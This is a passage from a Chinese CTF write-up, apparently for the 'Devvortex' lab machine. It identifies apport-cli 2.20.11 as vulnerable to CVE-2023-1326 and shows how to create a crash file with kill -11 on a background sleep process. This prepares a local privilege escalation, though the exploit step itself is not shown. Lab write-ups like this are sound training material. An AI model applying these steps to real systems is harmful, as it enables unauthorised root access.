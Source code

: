 可以查看版本：
```bash
logan@devvortex:~$ /usr/bin/apport-cli -v
2.20.11
```

实践发现谷歌比 `searchsploit` 好用多了啊……“apport-cli 2.20.11 exploit”搜一波发现下面文章：
> <https://nvd.nist.gov/vuln/detail/CVE-2023-1326>  
> <https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb>

### PoC (CVE-2023-1326)

github提交中写了PoC，帮大忙了。那么问题就是如何生成crash文件呢？

查看[apport的文档](https://github.com/canonical/apport)可发现，当收到“SIGSEGV”等信号时可

> It currently supports  
> - Crashes from standard signals (SIGSEGV, SIGILL, etc.) through the kernel coredump handler (in piping mode)

ChatGPT询问如何发送“SIGSEGV”信号后，得知可以kill一个进程。一个简单的方式就是后台运行一个sleep命令，然后对其发送信号：
```bash
logan@devvortex:~$ sleep 1000 &
[1] 9073
logan@devvortex:~$ ps
    PID TTY          TIME CMD
   1816 pts/2    00:00:00 bash
   9073 pts/2    00:00:00 sleep
   9100 pts/2    00:00:00 ps
logan@devvortex:~$ kill -11 9073
logan@devvortex:~$ ps
    PID TTY          TIME CMD
   1816 pts/2    00:00:00 bash
   9564 pts/2    00:00:00 ps
[1]+  Segmentation fault      (core dumped) sleep 1000
logan@devvortex:~$ ls /var/crash/
_usr_bin_sleep.1000.crash
```

顺便看一眼kill的各种信号：
```bash
logan@devvortex:~$ kill -l
 1) SIGHUP       2) SIGINT       3) SIGQUIT      4) SIGILL       5) SIGTRAP
 6) SIGABRT      7) SIGBUS       8) SIGFPE       9) SIGKILL     10) SIGUSR1
11) SIGSEGV     12) SIGUSR2     13) SIGPIPE     14) SIGALRM     15) SIGTERM
16) SIGSTKFLT   17) SIGCHLD     18) SIGCONT     19) SIGSTOP     20) SIGTSTP
21) SIGTTIN     22) SIGTTOU     23) SIGURG      24) SIGXCPU     25) SIGXFSZ
26) SIGVTALRM   27) SIGPROF     28) SIGWINCH    29) SIGIO       30) SIGPWR
31) SIGSYS      34) SIGRTMIN    35) SIGRTMIN+1  36) SIGRTMIN+2  37) SIGRTMIN+3
38) SIGRTMIN+4  39) SIGRTMIN+5  40) SIGRTMIN+6  41) SIGRTMIN+7  42) SIGRTMIN+8
43) SIGRTMIN+9  44) SIGRTMIN+10 45) SIGRTMIN+11 46) SIGRTMIN+12 47) SIGRTMIN+13
48) SIGRTMIN+14 49) SIGRTMIN+15 50) SIGRTMAX-14 51) SIGRTMAX-13 52) SIGRTMAX-12
53) SIGRTMAX-11 54) SIGRTMAX-10 55) SIGRTMAX-9  56) SIGRTMAX-8  57) SIGRTMAX-7
58) SIGRTMAX-6  59) SIGRTMAX-5  60) SIGRTMAX-4  61) SIGRTMAX-3  62) SIGRTMAX-2
63) SIGRTMAX-1  64) SIGRTMAX
```
